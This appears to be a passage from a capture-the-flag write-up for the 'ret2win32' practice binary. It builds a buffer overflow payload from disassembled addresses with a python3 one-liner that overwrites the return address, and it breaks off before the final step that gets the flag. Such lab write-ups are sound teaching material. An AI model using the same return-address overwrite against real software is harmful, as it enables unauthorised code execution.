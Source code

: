 ```
disass pwnme
 0x080485ad <+0>:     push   ebp
```

* `0x080485ad`
* We now will place this in little-endian format for our payload

```
\xad\x85\x04\x08
```

**Utilizing python3, we can jump to `pwnme()` once more and see that in the result of our execution:**

<pre><code><strong>python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xad\x85\x04\x08')"  > payload
</strong></code></pre>

**Send payload to target binary:**

```
./ret2win32 < payload
```

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption><p>How cool is that? Now, let's get that flag.</p></figcaption></figure>

**Utilizing the similar method above, let's grab the address of `ret2win()`:**

```
disass ret2win 
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   ebp
```

* `0x0804862c`
* Placing in little-endian format for our payload

```
\x2c\x86\x04\x08
```

**Utilizing python3, we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

